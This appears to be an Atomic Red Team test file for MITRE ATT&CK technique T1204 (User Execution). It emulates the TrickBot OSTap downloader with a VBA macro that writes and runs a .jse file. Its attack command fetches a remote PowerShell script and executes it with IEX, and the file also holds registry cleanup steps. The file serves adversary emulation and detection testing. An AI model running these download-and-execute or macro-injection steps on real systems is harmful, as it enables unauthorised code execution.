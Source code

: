 # T1204 - User Execution
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1204)
<blockquote>An adversary may rely upon specific actions by a user in order to gain execution. This may be direct code execution, such as when a user opens a malicious executable delivered via [Spearphishing Attachment](https://attack.mitre.org/techniques/T1193) with the icon and apparent extension of a document file. It also may lead to other execution techniques, such as when a user clicks on a link delivered via [Spearphishing Link](https://attack.mitre.org/techniques/T1192) that leads to exploitation of a browser or application vulnerability via [Exploitation for Client Execution](https://attack.mitre.org/techniques/T1203). Adversaries may use several types of files that require a user to execute them, including .doc, .pdf, .xls, .rtf, .scr, .exe, .lnk, .pif, and .cpl. 

As an example, an adversary may weaponize Windows Shortcut Files (.lnk) to bait a user into clicking to execute the malicious payload.(Citation: Proofpoint TA505 June 2018) A malicious .lnk file may contain [PowerShell](https://attack.mitre.org/techniques/T1086) commands. Payloads may be included into the .lnk file itself, or be downloaded from a remote server.(Citation: FireEye APT29 Nov 2018)(Citation: PWC Cloud Hopper Technical Annex April 2017) 

While User Execution frequently occurs shortly after Initial Access it may occur at other phases of an intrusion, such as when an adversary places a file in a shared directory or on a user's desktop hoping that a user will click on it.</blockquote>

## Atomic Tests

- [Atomic Test #1 - OSTap Style Macro Execution](#atomic-test-1---ostap-style-macro-execution)


<br/>

## Atomic Test #1 - OSTap Style Macro Execution
This Test uses a VBA macro to create and execute #{jse_path} with cscript.exe. The .jse file in turn launches wscript.exe.
Execution is handled by [Invoke-MalDoc](https://github.com/redcanaryco/invoke-atomicredteam/blob/master/Public/Invoke-MalDoc.ps1) to load and execute VBA code into Excel or Word documents.

This is a known execution chain observed by the OSTap downloader commonly used in TrickBot campaigns 
References:
  https://www.computerweekly.com/news/252470091/TrickBot-Trojan-switches-to-stealthy-Ostap-downloader

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| ms_office_version | Microsoft Office version number found in "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Office" | String | 16.0|
| ms_product | Maldoc application Word or Excel | String | Word|
| jse_path | Path for the macro to write out the "malicious" .jse file
 | String | C:\Users\Public\art.jse|


#### Attack Commands: Run with `powershell`! 
```
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-MalDoc.ps1")
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"cscript.exe #{jse_path}`"`n"
Invoke-MalDoc $macrocode "#{ms_office_version}" "#{ms_product}"
```

#### Cleanup Commands:
```
if (Test-Path #{jse_path}) { Remove-Item #{jse_path} }
try { Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Office\#{ms_office_version}\#{ms_product}\Security\' -Name 'AccessVBOM' } catch {}
```


#### Dependencies:  Run with `powershell`!
##### Description: Test Requires MS Word to be installed and have been run previously. Run -GetPrereqs to run msword and build dependant registry keys
##### Check Prereq Commands:
```
If (Test-Path HKCU:SOFTWARE\Microsoft\Office\#{ms_office_version}) { exit 0 } else { exit 1 } 
```
##### Get Prereq Commands:
```
$msword = New-Object -ComObject word.application
Stop-Process -Name WINWORD
```




<br/>
